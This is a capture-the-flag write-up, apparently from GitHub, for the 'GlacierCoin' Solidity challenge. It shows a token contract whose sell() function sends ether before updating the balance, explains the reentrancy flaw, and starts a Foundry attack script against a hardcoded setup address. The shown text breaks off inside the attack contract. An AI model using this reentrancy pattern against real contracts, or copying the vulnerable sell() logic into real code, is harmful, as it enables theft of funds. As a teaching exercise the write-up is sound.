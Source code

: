 ```javascript
    function defrost(uint256 amount) public
    {
        require(frozen[msg.sender] >= amount, "You can not unfreeze this much");
        frozen[msg.sender] -= amount;
        balances[msg.sender] += amount;
    }
    //You can even sell your token for ether, but you can only sell as much as you have
    function sell(uint256 amount) public
    {
        require(balances[msg.sender] >= amount, "You can not sell this much as you are poor af");
        uint256 new_balance = balances[msg.sender] - amount;
        (msg.sender).call{value: amount}("");
        balances[msg.sender] = new_balance;
    }
    //Internal functions (These shouldn't interest you)
    function _mint(uint256 amount, address target) internal
    {
        balances[target] += amount;
    }   
}

```

Observations :

1. We are given with setup contract address
2. Setup contract deployes the GlacierCoin contract and funds with 10 ether
3. GlacierCoin is a non-standard token contracts with buy, sell, freeze features

Goal : 

- The goal is to make the GlacierCoin balance 0 (look at isSolved() in Setup)

We can simply look at the `sell()` function which is susceptable to the great `Reentrancy`. The balance of the sender updated after the external call. So, we can simply write an Attack contract with a fallback function `Reenter` into the `sell()` function.

Attack : 

1. Buy 10 coins in GlacierCoin with 10 ether
2. Sell it back
3. Reenter into sell again from fallback

`Attack.s.sol` : 

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;
import {Setup} from "../src/GlacierCoin/Setup.sol";
import {GlacierCoin} from "../src/GlacierCoin/Challenge.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";

contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 20 ether}().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}

contract Attack{
    Setup public setupContract = Setup(0x1163C62DE50f6f148e3deA99cA65EBAff3fab967);
    GlacierCoin public TARGET = GlacierCoin(address(setupContract.TARGET()));
    constructor() payable {
        require(msg.value == 20 ether); // For attack contract usage
```